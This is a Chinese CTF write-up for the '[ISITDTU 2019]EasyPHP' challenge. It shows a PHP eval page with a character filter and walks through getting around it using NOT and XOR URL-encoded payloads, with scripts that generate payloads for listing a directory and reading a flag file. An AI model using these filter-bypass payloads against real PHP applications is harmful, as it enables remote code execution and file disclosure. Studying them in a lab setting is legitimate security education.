


题目戳这👉<a href="https://buuoj.cn/challenges#[ISITDTU%202019]EasyPHP">[ISITDTU 2019]EasyPHP</a>

```php
<?php
highlight_file(__FILE__);

$_ = @$_GET['_'];
if ( preg_match('/[\x00- 0-9\'"`$&.,|[{_defgops\x7F]+/i', $_) )
    die('rosé will not do it');

if ( strlen(count_chars(strtolower($_), 0x3)) > 0xd )
    die('you are so close, omg');

eval($_);
?>
```

> 1. \x00- 0-9         匹配\x00到\x20(空格)，数字0-9
> 2. '、"、`、$、&、.、,、|、[、{、_、d、e、f、g、o、p、s、\x7F

> `count_chars`是用于统计字符串的，这里选择模式3，返回一个字符串，为第一个参数里面每个不同的字符
> 第二个if翻译一下就是 **不同的字符不能超过13个**

下面脚本找出php能通过上面两个if的函数

```php
<?php
$funcs = get_defined_functions();//返回所有内置定义函数
foreach($funcs['internal'] as $func){
    if ( preg_match('/[\x00- 0-9\'"`$&.,|[{_defgops\x7F]+/i', $func) ) continue;
    if ( strlen(count_chars(strtolower($func), 0x3)) > 0xd ) continue;
    echo $func.PHP_EOL;
}
```

> bcmul、rtrim、trim、ltrim、chr、link、unlink、tan
> atan、atanh、tanh、intval、mail、min、max

都挺难利用的这些函数

题目没有过滤`~`和`^`，可以试试取反、异或绕过

```php
<?php
echo urlencode(~'phpinfo');
// _=(~%8F%97%8F%96%91%99%90)();
```

发现disable_functions过滤挺多系统函数的


或许不用执行系统命令，一些php内置函数就能拿到flag

```php
<?php
// print_r(scandir(.)); 打印当前目录下的所有文件名
echo urlencode(~'print_r').PHP_EOL;
echo urlencode(~'scandir').PHP_EOL;
echo urlencode(~'.').PHP_EOL;
// (~%8F%8D%96%91%8B%A0%8D)(~%8C%9C%9E%91%9B%96%8D(%D1));
```

```php
<?php
$a = '(~%8F%8D%96%91%8B%A0%8D)(~%8C%9C%9E%91%9B%96%8D(%D1));';
echo strlen(count_chars(strtolower($a), 0x3)); //16
```

长度16大于13，无法绕过第二个if，需要减少3个不同的字符。

可以通过几个字符来异或得到新的字符，先统计一下`print_r(scandir(.));`出现的字符

```php
<?php
$data = "print_r(scandir(.));";
echo count_chars($data, 3);
// ().;_acdinprst
```

```python
# 至少要三个字符才能异或出新的
_str = 'acdips'
target = 'ntr'

for m in target:
    for a in _str:
        for b in _str:
            for c in _str:
                if ord(a) ^ ord(b) ^ ord(c) == ord(m):
                    print("{} = {}^{}^{}".format(m, a, b, c))
```

剔除掉一些异或的排列组合，得到如下：

> n = c^d^i
> t = c^d^s
> r = a^c^p

为了统一为异或运算，`~`可以改成`^0xff`    下面是我蹩脚的脚本

```python
def convert(data, _data):
    pad = [list(_data), list('%FF%FF%FF%FF%FF%FF%FF'), list('%FF%FF%FF%FF%FF%FF%FF')]
    j = 0
    for i in data:
        if i == 'n':
            pad[0][j * 3 + 1: j * 3 + 3] = '9C'
            pad[1][j * 3 + 1: j * 3 + 3] = '9B'
            pad[2][j * 3 + 1: j * 3 + 3] = '96'
        elif i == 't':
            pad[0][j * 3 + 1: j * 3 + 3] = '9C'
            pad[1][j * 3 + 1: j * 3 + 3] = '9B'
            pad[2][j * 3 + 1: j * 3 + 3] = '8C'
        elif i == 'r':
            pad[0][j * 3 + 1: j * 3 + 3] = '9E'
            pad[1][j * 3 + 1: j * 3 + 3] = '9C'
            pad[2][j * 3 + 1: j * 3 + 3] = '8F'
        j += 1
    res = []
    for k in pad:
        res.append(''.join(k))
    print(res)
    return res


def brace_up_xor(pad):
    padding = '%FF%FF%FF%FF%FF%FF%FF'
    return '(' + pad[0] + ')' + '^(' + pad[1] + ')' + '^(' + pad[2] + ')' + '^(' + padding + ')'


x = 'print_r'
_x = '%8F%8D%96%91%8B%A0%8D'
x_pad = convert(x, _x)
a = brace_up_xor(x_pad)
y = 'scandir'
_y = '%8C%9C%9E%91%9B%96%8D'
y_pad = convert(y, _y)
b = brace_up_xor(y_pad)
print('(' + a + ')' + '(' + '(' + b + ')' + '((%D1)^(%FF))' + ');')
```



直接访问flag文件返回403 Forbidden

最后用`readfile(end(scandir(.)))`去读

此时又多出了一些字符，处理方法同上